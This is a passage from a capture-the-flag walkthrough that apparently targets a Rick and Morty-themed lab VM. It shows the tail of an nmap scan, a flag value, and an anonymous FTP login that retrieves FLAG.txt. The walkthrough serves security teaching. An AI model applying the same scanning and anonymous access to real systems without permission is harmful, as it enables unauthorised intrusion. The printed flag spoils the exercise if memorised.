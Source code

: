 Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.81 ms 10.0.2.15

NSE: Script Post-scanning.
Initiating NSE at 05:51
Completed NSE at 05:51, 0.00s elapsed
Initiating NSE at 05:51
Completed NSE at 05:51, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1615.79 seconds
           Raw packets sent: 128763 (5.668MB) | Rcvd: 128754 (5.153MB)

{% endhighlight %}

And together with the results of this comprehensive scan, we get the first flag!

{% highlight text%}
FLAG:{TheyFoundMyBackDoorMorty}-10Points
{% endhighlight %}

Now let's take a look at all the services more closely. Firstly, we can check **ftp** using anonymous login.

{% highlight bash %}
root@kali:~# ftp 10.0.2.15
Connected to 10.0.2.15.
220 (vsFTPd 3.0.3)
Name (10.0.2.15:root): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        0              33 Aug 22 05:10 .
drwxr-xr-x    3 0        0              33 Aug 22 05:10 ..
-rw-r--r--    1 0        0              42 Aug 22 05:10 FLAG.txt
drwxr-xr-x    2 0        0               6 Feb 12  2017 pub
226 Directory send OK.
ftp> get FLAG.txt
local: FLAG.txt remote: FLAG.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for FLAG.txt (42 bytes).
226 Transfer complete.
42 bytes received in 0.00 secs (21.4967 kB/s)
ftp> cd pub
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0               6 Feb 12  2017 .
drwxr-xr-x    3 0        0              33 Aug 22 05:10 ..
226 Directory send OK.
ftp> exit
221 Goodbye.
{% endhighlight %}

